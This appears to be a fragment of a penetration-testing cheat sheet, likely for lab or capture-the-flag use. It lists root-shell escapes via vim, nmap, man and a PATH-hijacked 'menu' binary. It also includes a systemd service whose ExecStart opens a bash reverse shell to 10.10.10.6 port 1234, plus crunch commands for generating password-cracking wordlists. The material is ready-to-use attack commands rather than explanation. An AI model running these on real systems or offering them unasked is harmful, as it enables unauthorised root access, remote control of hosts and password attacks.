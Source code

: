 ### Root shell methods <a name="root_shell"></a>

- Vim
  - M:!sh
  - M:term
- Nmap
  - Nmap -interactive
  - !sh
- Systemctl

  - !sh
  - ```
    echo '
    [Unit]
    Description=rooot

    [Service]
    Type=simple
    User=root
    ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.10.10.6/1234 0>&1"

    [Install]
    WantedBy=multi-user.target' > root.service

    ```

    - `systemctl enable root.service`
    - `systemctl start root`

- Menu

  - `echo /bin/sh > curl`
  - `chmod 777 curl`
  - `export PATH=/tmp:$PATH`
  - `/usr/bin/menu`

- Man
  - `sudo man man`
  - `!sh`

# Generate Wordlists <a name="crunch"></a>

## Crunch (min, max, regex)

- `crunch 6 12 0123456789 > wordlist.txt` <-- Generate a wordlist with 6-12 numbers
- `crunch 6 12 abcdefghijklmnopqrstuvwxyzÅÄÖ > wordlist.txt` <-- Generate a wordlist with 6-12 letters
- `crunch 10 10 password%^ > wordlist.txt` <-- Generate a wordlist that start with password and end with any number and any special character
- , = uppercase letters
- @ = lowercase letters
- % = numbers
- ^ = special characters
